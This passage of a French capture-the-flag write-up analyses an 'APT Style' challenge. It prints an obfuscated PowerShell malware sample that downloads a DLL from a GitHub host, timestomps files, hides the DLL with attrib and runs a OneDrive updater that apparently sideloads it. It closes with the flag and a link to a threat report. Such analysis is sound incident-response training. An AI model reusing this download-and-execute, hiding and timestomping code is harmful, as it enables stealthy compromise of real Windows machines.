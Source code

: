 ```ps1
    (&("{1}{3}{0}{2}"-f'Objec','N','t','ew-') ("{0}{4}{3}{1}{2}" -f'Ne','Cli','ent','b','t.We')).("{1}{2}{0}" -f'dFile','Down','loa').Invoke(("{13}{1}{8}{6}{9}{12}{0}{4}{2}{7}{3}{5}{11}{10}" -f'on','tp','/On','DriveUpdater/ra','g','w/mai','thub.com/w','e','s://gi','itn','/version.dll','n','essstr','ht'),((("{2}{11}{8}{14}{7}{4}{9}{13}{0}{5}{15}{12}{1}{6}{3}{10}" -f 'oft','Updater5','C:5f','v','ram Fil','5f','fD','g','r','es5fDMi','ersion.dll','DP','ive','cros','o','DOneDr'))."r`Epl`Ace"(([cHAR]53+[cHAR]102+[cHAR]68),'\')));
    (&("{2}{3}{0}{1}" -f'bjec','t','Ne','w-O') ("{2}{3}{1}{0}" -f 'nt','e','Ne','t.WebCli')).("{2}{0}{1}" -f 'wnloa','dFile','Do').Invoke(("{8}{1}{10}{9}{7}{12}{11}{3}{14}{4}{13}{0}{2}{5}{6}"-f 'main/','hub.','v','essstrong/OneDriveUpdate','/raw','ersl','on.dll','m/wi','https://git','o','c','n','t','/','r'),((("{12}{6}{8}{1}{2}{5}{0}{3}{11}{4}{10}{9}{7}"-f 'osoftIgdO','am',' Files','n','UpdaterIgdverslo','IgdMicr','o','l','gr','l','n.d','eDrive','C:IgdPr')).("{1}{2}{0}"-f 'cE','REPl','A').Invoke('Igd','\')));


    ${t`s} = &("{1}{2}{0}" -f'tem','Get','-I') ((("{3}{4}{5}{1}{0}{2}"-f 'in','dows{0}w','.ini','C:{','0','}Win'))-F [cHAr]92) | .("{1}{0}" -f'oreach','F') {${_}."l`Astwr`iTetIMe"};
    ${F`ILEs}= @(((("{11}{2}{16}{3}{1}{5}{20}{13}{7}{12}{17}{23}{14}{18}{19}{10}{6}{15}{8}{22}{9}{4}{0}{21}" -f 'er','MicrosoftwG','am ','Gi','at','iOne','iveSta','Upd','d','neUpd','r','C:wGiProgr','ate','ive','O','n','Filesw','rwG','ne','D','Dr','.exe','alo','i'))  -CRePLACe  ([cHAr]119+[cHAr]71+[cHAr]105),[cHAr]92), ((("{5}{1}{9}{13}{3}{6}{15}{14}{8}{0}{10}{2}{4}{11}{12}{7}" -f 'tq',':qXGPro','e','Micr','U','C','o','n.dll','f','gram F','XGOneDriv','pdaterq','XGversio','ilesqXG','o','s'))-cRePlaCe([cHar]113+[cHar]88+[cHar]71),[cHar]92), ((("{14}{11}{5}{13}{8}{10}{6}{12}{4}{9}{3}{0}{1}{2}{7}" -f 'UpdaterLX','nv','ers','ve','LXnOn','am ','Microsof','lon.dll','s','eDri','LXn','XnProgr','t','File','C:L')) -cRePLaCe'LXn',[CHAR]92), ((("{2}{3}{1}{7}{0}{8}{6}{5}{4}" -f'0Micros','m Fil','C:a','Y0Progra','pdater','0OneDriveU','taY','esaY','of')).("{0}{2}{1}" -f 'r','PLacE','e').Invoke('aY0','\')), ((("{4}{2}{1}{0}{3}"-f'}Microso','s{0','File','ft{0}','C:{0}Program '))  -f[chAR]92));
    ${fi`l`ES}.("{0}{1}" -f 'F','orEach')({
        ${fi`lE} = .('gi') ${_};
        ${f`iLE}."lASTWr`it`EtIMe"=${t`S};
        ${f`ilE}."La`stACCES`StI`me"=${t`S};
        ${fI`Le}."C`ReA`Tion`TIME"=${Ts};
    })
    &("{1}{0}"-f 'ib','attr') ('+s') ('+h') ((("{8}{0}{3}{7}{5}{4}{2}{1}{6}{9}" -f'{0','OneDriveUpdater{','iles{0}Microsoft{0}','}',' F','ogram','0','Pr','C:','}version.dll'))  -F  [chAr]92) ('/S') ('/D') ('/L');
    & ((("{4}{10}{1}{11}{13}{6}{0}{8}{12}{7}{14}{9}{2}{5}{3}" -f'p','ilesC','e','e','C:','r.ex','tCgpOneDriveU','n','daterCg','pdat','CgpProgram F','gpMicros','pO','of','eDriveStandaloneU'))-crePLAcE ([chaR]67+[chaR]103+[chaR]112),[chaR]92);
}
```

On arrive plus ou moins à comprendre le powershell sans trop le remettre en forme.

En ce qui concerne l'UNC, une petite recherche google sur les compromissions d'ISO et on arrive sur cette page : https://www.mandiant.com/resources/blog/trojanized-windows-installers-ukrainian-government

**Flag : FCSC{HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{4D595DA6-BC59-47AE-A527-EC01FCE2E615}:UNC4166}**

## APT Style 2/7
